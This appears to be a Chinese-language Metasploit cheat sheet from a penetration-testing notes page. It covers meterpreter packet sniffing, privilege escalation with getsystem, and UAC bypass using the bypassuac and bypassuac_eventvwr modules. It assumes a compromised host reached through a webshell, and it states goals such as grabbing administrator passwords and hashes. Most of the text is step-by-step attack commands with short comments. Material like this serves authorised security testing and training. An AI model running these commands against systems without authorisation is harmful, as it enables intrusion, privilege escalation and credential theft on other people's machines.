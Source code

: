 **sniffer**
```bash
use sniffer
sniffer_interfaces                  # 查看网卡信息
sniffer_start 1                     # 开始在序号为1的网卡上抓包
sniffer_dump 1 xpsp1.cap            # 下载抓取到的数据包
```

对抓取的包进行解包
```bash
use auxiliary/sniffer/psnuffle
set pcapfile 1.cap
run
```

### 权限提升

```bash
getuid      # 查看当前权限
getsystem   # 提权
getuid      # 再次查看判断是否提权成功
```

**绕过 UAC**

通常 webshell 的权限都比较低,能够执行的操作有限,没法查看重要文件、修改系统信息、抓取管理员密码和 hash、安装特殊程序等,所以我们需要获取系统更高的权限

1. 什么是 UAC？

    Microsoft 的 Windows Vista 和 Windows Server 2008 操作系统引入了一种良好的用户帐户控制架构,以防止系统范围内的意外更改,这种更改是可以预见的,并且只需要很少的操作量.它是 Windows 的一个安全功能,它支持防止对操作系统进行未经授权的修改,UAC 确保仅在管理员授权的情况下进行某些更改.如果管理员不允许更改,则不会执行这些更改,并且 Windows 系统保持不变.

2. UAC 如何运行？

    UAC 通过阻止程序执行任何涉及有关系统更改/特定任务的任务来运行.除非尝试执行这些操作的进程以管理员权限运行,否则这些操作将无法运行.如果您以管理员身份运行程序,则它将具有更多权限,因为它将被"提升权限",而不是以管理员身份运行的程序.

    因为有的用户是没有管理员权限,没有管理员权限是运行不了那些只能通过管理员权限才能操作的命令.比如修改注册表信息、创建用户、读取管理员账户密码、设置计划任务添加到开机启动项等操作.

    最直接的提权命令 : getsystem

    绕过 UAC 防护机制的前提是我们首先通过 explloit 获得目标主机的 meterprter.获得 meterpreter 会话 1 后,输入以下命令以检查是否是 system 权限.这里直接上命令.我们需要把获取到的 session 保存到后台,执行 background

```bash
background
use exploit/windows/local/bypassuac
# 将通过进程注入使用可信任发布者证书绕过 Windows UAC.它将生成关闭 UAC 标志的第二个 shell.
sessions        # 查看目前的 session
sessions -k     # 杀死所有 session
set session     # 设为你需要 exploit 的 session
```

- **Windows 权限提升绕过 UAC 保护(内存注入)**
    ```
    background
    use exploit/windows/local/bypassuac_eventvwr
    set session 1
    Exploit
    ```
